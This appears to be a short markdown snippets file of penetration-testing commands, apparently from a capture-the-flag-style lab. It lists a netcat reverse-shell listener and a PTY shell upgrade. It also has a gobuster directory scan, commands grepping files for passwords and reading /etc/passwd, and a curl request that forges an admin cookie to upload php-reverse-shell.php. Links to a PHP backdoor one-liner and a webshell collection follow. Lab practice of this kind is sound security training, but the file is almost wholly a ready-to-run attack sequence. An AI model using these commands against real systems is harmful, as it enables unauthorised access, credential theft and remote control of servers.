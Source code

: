 # snippets
---

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
nc -lvnp 1234
```

```
gobuster dir --url https://{TARGET_IP}/ --wordlist
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

```
 cat * | grep -i passw*
```

```
cat /etc/passwd
```

```
curl 'http://10.129.84.7/cdn-cgi/login/admin.php?content=uploads&action=upload' 
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' \ 
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \ 
-H 'Accept-Language: en-US,en;q=0.5' --compressed \ 
-H 'Content-Type: multipart/form-data; boundary=---------------------------134685576120720054973338887215' \ 
-H 'Origin: http://10.129.84.7' \ 
-H 'DNT: 1' \ 
-H 'Connection: keep-alive' \ 
-H 'Referer: http://10.129.84.7/cdn-cgi/login/admin.php?content=uploads' \ 
-H 'Cookie: user=34322; role=admin' \ 
-H 'Upgrade-Insecure-Requests: 1' --data-binary \
$'-----------------------------134685576120720054973338887215\r\nContent-Disposition: form-data; \
name="name"\r\n\r\n444\r\n-----------------------------134685576120720054973338887215\r\nContent-Disposition: \
form-data; name="fileToUpload"; filename="php-reverse-shell.php"\r\nContent-Type: \
application/x-php\r\n\r\n-----------------------------134685576120720054973338887215--\r\n'
```

# Ref

* [Simple-Backdoor-One-Liner.php](https://gist.github.com/sente/4dbb2b7bdda2647ba80b "Simple-Backdoor-One-Liner.php")

* [webshells/php-reverse-shell.php at master · BlackArch/webshells](https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php "webshells/php-reverse-shell.php at master · BlackArch/webshells")
